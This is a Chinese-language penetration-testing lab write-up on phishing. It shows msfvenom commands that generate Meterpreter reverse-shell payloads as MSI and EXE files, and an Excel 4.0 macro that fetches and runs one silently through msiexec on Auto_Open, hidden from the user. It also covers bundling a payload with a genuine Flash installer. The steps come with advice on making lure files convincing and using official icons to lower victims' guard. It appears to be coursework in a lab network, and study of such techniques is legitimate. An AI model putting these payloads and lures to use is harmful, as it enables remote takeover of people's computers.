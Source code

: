 ```yaml
---
title: 实验五--钓鱼技术
category: 学习笔记
tags: 
  - 网络渗透测试技术
  - 钓鱼
  - 木马
published: 2023-12-07
permalink: /archives/2wqhr1z8/
---
```

## 实验目的

1、学会制作简单的钓鱼样本并理解钓鱼样本木马的工作原理.

## 实验任务

1、制作恶意的excel文件

2、将正常的软件和恶意木马进行捆绑打包

## 实验步骤

### excel宏

输入下列命令后，即可在目录下看到生成的msi

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.100.129 lport=1234 -f msi -o diaoyu.msi
```

![image-20240714204850148](./images/202407142110164.png)

然后启动msf，使用multi/handler模块，并设置好对应的payload，然后输入run，进行监听

![image-20240714204924242](./images/202407142110165.png)

然后启动python的http服务，是为了后续制作宏的时候提供网络服务

![image-20240714204934617](./images/202407142110076.png)

在自己的电脑上创建一个excel表格（实际情况下，文件名要符合实际，有吸引力，里面的内容最好也是真实的，这里因为是实验环境，所以数据都是捏造的)

![image-20240714204948779](./images/202407142110166.png)

然后插入宏表

![image-20240714205003681](./images/202407142110167.png)

![image-20240714205014322](./images/202407142110168.png)

打开浏览器输入kali的ip地址，看到下图后右键diaoyu.msi，选择复制链接地址

![image-20240714205024076](./images/202407142110169.png)

 然后在表格第一行输入

```bash
 =EXEC("msiexec /q /i http://192.168.100.129/shell.msi")
```

 第二行输入

```bash
 =HALT()
```

然后选择A1的框，把A1改成Auto_Open（让excel打开时自动执行宏）然后回车即可

![image-20240714205100492](./images/202407142110170.png)

 然后就是隐藏宏，右键“宏1”，然后选择隐藏

![image-20240714205108651](./images/202407142110171.png)

 然后保存为启用宏的文件，点击保存类型，选择里面的启用宏的工作簿即可

![image-20240714205113197](./images/202407142110172.png)

 然后把文件传到靶机上，我这里以Windows7为例
 在靶机上点开文件并启用内容

![image-20240714205125500](./images/202407142110173.png)

 然后切回kali即可看到成功连接上，输入shell即可获得相应的shell

![image-20240714205131436](./images/202407142110174.png)

### 常规软件捆绑远控木马进行钓鱼

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.100.133 LPORT=7777 -f exe -o flash.exe
```

因为是msf直接生成的没有做免杀，所以拷到本地的时候记得关闭安全软件，不然会报毒

然后还要去flash官网下载一个真正的，图片右一

![image-20240714205158278](./images/202407142110175.png)

把这两个文件按下列图片进行压缩打包，为了降低受害者的心里防备，最好是可以把打包好的应用的图标改成官方的图标。

![image-20240714205250711](./images/202407142110176.png)

![image-20240714205254262](./images/202407142110177.png)

![image-20240714205300874](./images/202407142110178.png)

把制作好的恶意文件放到靶机上运行即可成功上线

![image-20240714205305641](./images/202407142110179.png)
